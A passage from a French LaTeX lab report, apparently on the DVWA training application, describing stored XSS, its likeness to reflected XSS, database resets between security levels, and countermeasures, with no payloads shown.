		
\includegraphics[scale=\scalekad]{images/xss/stored_xss}
		\caption{Attaque Stored XSS }		
		\label{stored_xss}
	\end{center}
\end{figure}


\subsection{Exploitation}
Les vulnérabilités aux attaques reflected XSS et stored XSS sont les mêmes. Les injections précédentes, montrant la vulnérabilité des niveaux Low, Medium et High,
fonctionnent de la même manière. La différence se situe au niveau de la persistance de l'injection. Entre chaque niveau, on doit ré-initialiser la base de données. 
\begin{figure}[H]
	\begin{center}
		
\includegraphics[scale=\scaledvwa]{images/xss/hack4.png}
		\caption{Page de ré-initialistation de la base de donnée} 
		\label{hack4}
	\end{center}
\end{figure}


\subsection{Contre-mesure}

Les contre-mesures sont les mêmes que celles du reflected XSS puisque la faille est la même. Ce  n'est que la méthode d'exploitation qui diffère.


